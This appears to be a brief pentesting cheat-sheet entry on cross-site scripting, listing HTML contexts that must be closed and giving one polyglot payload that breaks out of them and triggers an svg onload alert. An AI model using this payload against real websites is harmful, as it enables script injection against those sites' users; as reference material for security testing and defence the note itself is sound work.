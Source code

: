 ## Cross-Site Scripting (XSS)

### Ployglot Payload

Note that `HTML tags` that need to be closed for `XSS`.

```c
<!--
<title>
<textarea>
<style>
<noscript>
<xmp>
<template>
<noembed>
```

```c
--></title></textarea></style></noscript></script></xmp></template></noembed><svg/onload=alert()>
```
